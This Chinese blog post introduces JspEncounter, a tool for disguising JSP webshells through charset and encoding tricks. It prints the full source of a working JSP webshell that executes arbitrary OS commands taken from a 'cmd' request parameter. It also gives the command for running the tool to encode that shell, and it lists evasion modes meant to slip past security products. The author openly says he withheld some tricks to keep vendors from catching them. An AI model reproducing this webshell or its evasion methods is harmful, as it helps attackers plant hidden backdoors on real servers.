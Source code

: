 ```yaml
---
date: 2022/11/29 00:41:25
---
```


# JSP下的白魔法：JspEncounter

@turn1tup

## 前言

​		这几天看到以前整活的一些有趣的JSP编码手法被补天的分享会提及到，想到有大佬与前些年的笔者一样，发现了这个手法，然后也一样不吝啬分享出来，不免与有荣焉。

​		竟然如此，笔者索性抽出咸鱼时间编写了一个小工具，帮助广大同学们学习该手法，而对应的原理实在枯燥乏味，就算笔者了然，但这最好还是给有心之人可自行查看吧，本文爽就完事了。

​		接下来直接阐述工具相应的矩阵手法及使用效果，而工具使用的注意项及等信息则请在github查看 ：

​		https://github.com/turn1tup/JspEncounter

## 矩阵手法

被工具转换前的原始source.jsp文件内容为：

```jsp
<%@page import="java.util.*,java.io.*" contentType="text/html" %>
<%! class Test{} %>
<%

    if (request.getParameter ("cmd") != null) {
        boolean isWin = System.getProperty("os.name").toUpperCase().contains("WIN");
        String[] cmd = {isWin?"cmd":"/bin/bash",isWin?"/c":"-c",request.getParameter("cmd")};
        InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
        OutputStream outputStream = response.getOutputStream();
        int a;
        outputStream.write(String.valueOf(System.currentTimeMillis()).getBytes());
        while((a=inputStream.read())!=-1){
            outputStream.write(a);
        }
    }

%>
```

工具命令为：

```
java  "-Dfile.encoding=utf-8" -jar JspEncounter.jar -m jsp -c matrix.xlsx -s source.jsp -o result.jsp
```



### magic charset

我们打开 `matrix.xlsx`进行配置，这里配置输出单种字符集文件：

![all_cp037](JSP下的白魔法/magic_charset.png)

执行命令后，输出的编码后的文件:

![magic_charset_demo](JSP下的白魔法/magic_charset_demo.png)

### declare charset

![declare_charset](JSP下的白魔法/declare_charset.png)

demo（放前后都可）:

![declare_charset_demo](JSP下的白魔法/declare_charset_demo.png)



### double chraset

双重字符集，这里以前文UTF-16BE 后文CP037为例：

![double_charset](JSP下的白魔法/double_charset.png)



![double_charset_demo](JSP下的白魔法/double_charset_demo.png)

### controller space

xml 1.1版本下，将标签内的左右括号进行对应的字符替换，该模式目前支持的字符集为utf-8/iso-8859-1/utf-16：

![controller_space](JSP下的白魔法/controller_space.png)

UTF-8字符集情况下：

![controller_space_demo](JSP下的白魔法/controller_space_demo.png)

ISO-8859-1情况下的特殊空白字符：

![controller_space_demo](JSP下的白魔法/controller_space_demo2.png)

### unicode & entity

这里使用双重编码对标签内的代码进行编码，即使用 unicode + html entity：

![entity](JSP下的白魔法/entity.png)



![eneity_demo](JSP下的白魔法/eneity_demo.png)



### ext tags

将代码拼接到 setProperty/useBean标签的属性中 ，该手法参考补天会议：

![exttag](JSP下的白魔法/exttag.png)

![exttag_demo](JSP下的白魔法/exttag_demo.png)

### namespace

![namespace](JSP下的白魔法/namespace.png)



![namespace](JSP下的白魔法/namespace_demo.png)

## 结语

​		通过本工具我们可以便捷地了解JSP中的这些编码手法，各手法的组合需要他们的逻辑不冲突，而某些手法组合的代码实现比较麻烦，笔者就暂先没有整，大家可自行探索。当然，笔者也稍微藏了一手，毕竟如果厂商都明白了，那我们实战起来也就不那么痛快了，但如果你能真正弄懂这个矩阵中的手法，相信也能发现其他手法。而相对整个webshell的混淆知识的图谱来说，本文也只是一角。

## Reference

https://www.anquanke.com/post/id/210630

https://www.anquanke.com/post/id/209826

`extTag setProperty/useBean拼接代码手法` 参考补天2022 webshell黑魔法



